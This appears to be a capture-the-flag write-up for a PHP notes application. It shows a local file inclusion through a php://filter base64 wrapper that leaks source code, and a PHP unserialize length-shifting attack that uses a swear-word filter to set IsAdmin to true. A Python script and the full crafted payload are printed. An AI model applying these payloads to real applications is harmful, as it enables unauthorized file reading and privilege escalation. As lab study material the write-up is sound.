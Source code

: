 # Temporary Note

* Link [Callenge](http://challenges.0x0539.net:4455)

## exploiting.

### LFI (local file inclusion)

- we notice LFI vulnerability at `?action=` param.

- we can't get file that don't have `.php` extention.
- passing `../../../../etc/passwd` gives an error
![LFI error](LFIerror.png)

- instead, we can look at the file's content using `php://filter/convert.base64-encode/resource=`
so:
```
?action=php://filter/convert.base64-encode/resource=index
```
this gives a base64 encoding of the source code.

- saving a file would be:
```
$ echo <BASE64 FILE ENCODING HERE> | base64 -d > <FILENAME>
```

### PHP Serialize Unserialize vulnerability

after exminig the code we notice that there's a function called `saveCurrentUser` that replace swears to with stars, then serialize it.
```php
$SESSION['USERS'][$u->getName()] = str_replace($swears, '**********', serialize($u));
```

### Objective

* Inside index.php we notice it's checking for flag:
```php
if($CURRENT_USER && !$CURRENT_USER->isAdmin()) {
        switch($action) {
                case 'flag':
                        $error = 'You need administrative privileges do perform this action';
                        $action = 'home';
        }
}
```

let's grab that file and check it:
```php
<?php
        if(strtolower($_SERVER['SCRIPT_NAME'])!='/index.php') die();
        if($CURRENT_USER->isAdmin()) echo file_get_contents('flag.txt');
?>
```

This file reads the content of `flag.txt` and prints it out.

* How to read the file:

we need be admin
`index.php`
```php
if($CURRENT_USER && !$CURRENT_USER->isAdmin()) {
```
and
`user.php`
```php
class User {
	...
        var $IsAdmin = false;
	...
        function isAdmin() {
                return $this->IsAdmin;
        }
	...
```

using the serialize vulnerability in `util.php`, we can change `$u->IsAdmin` value.

- We can examine locally by running a local server `$ php -S localhost:8000`

- We can also print the content of serialized objects:

so in `util.php`:
change
```php
                $swears = ["shit", "fuck", "bitch", "bastard", "asshole", "douche"];
                $_SESSION['USERS'][$u->getName()] = str_replace($swears, '**********', serialize($u));
                echo '

```
to
```php
                $swears = ["shit", "fuck", "bitch", "bastard", "asshole", "douche"];
                var_dump($_SESSION['USERS'][$u->getName()]);
                $_SESSION['USERS'][$u->getName()] = str_replace($swears, '**********', serialize($u));
                var_dump($_SESSION['USERS'][$u->getName()]);
                $_SESSION['CURRENT_USER'] = $_SESSION['USERS'][$u->getName()];
```

this will allow us to see see the following strings.

* After logging in and creating a note and editing it you'll notice this:
(Passing "Note One :)" into content)
the serialize user `$u` look like:
```
O:4:"User":4:{s:4:"Name";s:5:"0x539";s:5:"Notes";a:1:{i:0;s:11:"Note One :)";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:0;}
```
the function `saveCurrentUser` checks for any of any swear word inside that string, and replace it with `**********` which might mess up the serialize function, and that's why you'll get an error everytime try passing swears in a note or even the user name such as `shit`.

* How to exploit:

Simply by passing `Junk + 'shit'` couple times followed by `0x539";s:5:"Notes";a:1:{i:0;s:11:"Note One :)";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//` (notice we changed `IsAdmin` value) followed by `shit` couple time again.

* finding the right shift:
notice
```
a:1:{i:0;s:11:"Note One :)";}
```
`a` is for array (object type)
`1` length of the array
`{...}` object content (array)
`i` integer
`0` value of the integer (index name in the array, 0 in this case cause it's the first element)
`s` string (type)
`11` length of the string
`"Note One :)"` Note 1 content.

we can try on php
```php
php > $a=unserialize('a:1:{i:0;s:11:"Note One :)";};');var_dump($a);
array(1) {
  [0]=>
  string(11) "Note One :)"
}
```
so that's an array.

### Exploiting

Serialize load an object from a string, and the string have a specific format (something like `0:<object name length>:"<object name>":{id:<index>,<type>:<length>:"<var>"}`), you can check [serialize](https://www.php.net/manual/en/function.serialize.php) function, for better explanation.

mal formatted string passed to serialize will give an error.

* changing IsAdmin Value:

* `exploit.py`:

```python
import sys
import re


if len(sys.argv) < 5:
    print("Usuage:\n\rpython3 exploit.py 60 59 0 2")

# informational function
def calleb(s_b, s_c, s1, s_a=0):
    shit_rep=s1;
    a= lambda s_b, s_c, s_a, s1: len('A'*(s_b)+'*'*10*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'*'*10*s1)
    b= lambda s_b, s_c, s_a, s1: len('A'*(s_b)+'shit'*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'shit'*s1);
    print("stars :", a(s_b, s_c, s_a, s1), "A<N times><PAYLOAD>*<N times>");print("string:", b(s_b, s_c, s_a, s1), "A<N times><PAYLOAD>shit<N/4 times>");
    print(a(s_b, s_c, s_a, s1)-(a(s_b, s_c, s_a, s1)-b(s_b, s_c, s_a, s1)))

# before replacing swears
cc1 = lambda s_b,s_c,s_a,s1: 'A'*(s_b)+'shit'*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'shit'*s1

# after replacing string
cc = lambda s_b,s_c,s_a,s1: 'A'*(s_b)+'*'*10*s_c+'A'*s_a+'0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAA'+'*'*10*s1

# s is AAAA.. and s1 is "shit" repeated
# cc1 is the string passed
# cc is the resulted string
def try_calc(s_b, s_c, s_a, s1):
    calleb(s_b, s_c, s_a, s1)
    print("cc :", len(cc(s_b, s_c, s_a, s1)))
    print("cc1:", len(cc1(s_b, s_c, s_a, s1)))

    print("hitting:", len(re.findall("\*+", cc(s_b, s_c, s_a, s1))[1]))
    print(cc(s_b, s_c, s_a, s1)[:len(cc1(s_b, s_c, s_a, s1))+1], "with additional character if it's 0x539\" right at the end then go get the flag!")
    print("copy this?")
    print("----- START -----")
    print(cc1(s_b, s_c, s_a, s1))
    print("----- END   -----")
    print("[+] visit:")
    print("/?action=flag")


try_calc(int(sys.argv[1]), int(sys.argv[2]), int(sys.argv[2]), int(sys.argv[2]))

```

this gives the crafter payload

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x539";}s:8:"Password";s:64:"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1";s:7:"IsAdmin";b:1;}//AAAAAAAshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshitshit
```

* create a new note with the payload

* visit /?action=flag

And we got the flag!
